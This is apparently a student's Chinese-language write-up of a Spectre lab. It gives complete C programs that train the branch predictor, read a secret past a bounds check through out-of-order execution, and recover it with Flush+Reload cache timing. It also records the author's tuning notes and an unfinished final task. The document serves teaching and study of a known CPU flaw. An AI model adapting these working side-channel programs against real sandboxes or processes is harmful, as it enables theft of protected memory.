

# Spectre漏洞基本利用

这个漏洞也是2017年发现，2018年1月公开的，在Intel、AMD和ARM等处理器上都存在。  
漏洞允许程序打破进程间（硬件保护的）和进程内（软件保护的）的隔离机制，恶意程序可以读取未授权数据。同样，由于漏洞
存在于硬件中，很难从根本上解决问题，除非换掉CPU。

!!! 声明

    这个实验虽然Intel、AMD和ARM上都存在，但是目前只测了Intel的，并且Intel也在不断解决这些问题，可能最新的
    CPU已经没有这个问题，截止2021年5月份问题还是广泛存在。

task1、task2和Meltdown一模一样。

## task3: 乱序执行和分支预测

乱序执行原理和meltdown中task6描述一样

SpectreExperiment.c如下：
```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

#define CACHE_HIT_THRESHOLD (150)
#define DELTA 1024

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
	printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d.\n", i);
    }
  } 
}

void victim(size_t x)
{
  if (x < size) {  
      temp = array[x * 4096 + DELTA];  
  }
}

int main() {
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {   
      victim(i);
  }

  // Exploit the out-of-order execution
  _mm_clflush(&size);
  for (i = 0; i < 256; i++)
      _mm_clflush(&array[i*4096 + DELTA]); 
  victim(97);  

  // RELOAD the probing array
  reloadSideChannel();

  return (0); 
}
```


这里重要的一点是，如果想让分支进入一个指定的路径，我们需要训练CPU，这样我们指定的一个分支就会变成预测的结果

如果把下面这行语句注释掉，重新执行，会无法找出秘密值：
```c
_mm_clflush(&size);
```
执行这行语句是为了确保没有被CPU缓存

上面这行不注释，victim(i)改成victim(i+20)，也会失败，因为这样把CPU训练成不执行分支了

## task4: 幽灵攻击

利用分支预测可以获取秘密值，秘密值可能是不同进程的数据，那是用硬件隔离机制来保护的。如果是同一个进程的数据，
往往利用软件的沙盒机制。获取不同进程的数据难度高很多，这里是演示在同一个进程中获取数据。  
浏览器中不同页面是用不同沙盒隔离开的，幽灵漏洞可以获取另一个页面的数据。  

SpectreAttack.c如下：
```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
char    *secret    = "Some Secret Value";   
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (150)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  } 
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
        printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d(%c).\n",i, i);
    }
  } 
}
void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;
  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) { 
      restrictedAccess(i); 
  }
  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }
  // Ask restrictedAccess() to return the secret in out-of-order execution. 
  s = restrictedAccess(index_beyond);  
  array[s*4096 + DELTA] += 88;  
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}

```

程序解读：  
1、下面这条语句计算秘密值和buffer起始地址的差值
```c
size_t index_beyond = (size_t)(secret - (char*)buffer); 
```


从结果看到，这个程序偶尔能成功，成功概率并不高

## task5: 改进攻击的准确性

改进思路和meltdown攻击一样，用统计的方法，执行多次，时间最少的肯定是CPU缓存读的  

SpectreAttackImproved.c如下：
```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>


unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
uint8_t temp    = 0;
char    *secret = "Some Secret Value";   
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (150)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  }
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

static int scores[256];
void reloadSideChannelImproved()
{
int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
    addr = &array[i * 4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD)
      scores[i]++; /* if cache hit, add 1 for this value */
  } 
}

void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;

  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }

  // Train the CPU to take the true branch inside victim().
  for (i = 0; i < 10; i++) {
    restrictedAccess(i);  
  }

  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower); 
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {  }
  //
  // Ask victim() to return the secret in out-of-order execution.
  s = restrictedAccess(index_beyond);
  array[s*4096 + DELTA] += 88;
}

int main() {
  int i;
  uint8_t s;
  size_t index_beyond = (size_t)(secret - (char*)buffer);

  flushSideChannel();
  for(i=0;i<256; i++) scores[i]=0; 

  for (i = 0; i < 1000; i++) {
    printf("*****\n");  // This seemly "useless" line is necessary for the attack to succeed
    spectreAttack(index_beyond);
    usleep(10);
    reloadSideChannelImproved();
  }

  int max = 0;
  for (i = 0; i < 256; i++){
    if(scores[max] < scores[i]) max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
  return (0); 
}
```

程序解读：  
printf("*****\n");这句话在20.04系统必须要加，16.04可以不加，原因未知  
usleep(10)睡眠10微秒


printf这行语句注释掉，usleep改成休眠100微秒后，每次都能成功


总结：应该是由于usleep的时间不够，预测执行时间不够，array[s*4096 + DELTA] += 88;没能执行，容易导致
最大score为scores[0]，只要增加时间为100微秒问题就可解决。

## task6 找出所有字符，没有搞成功

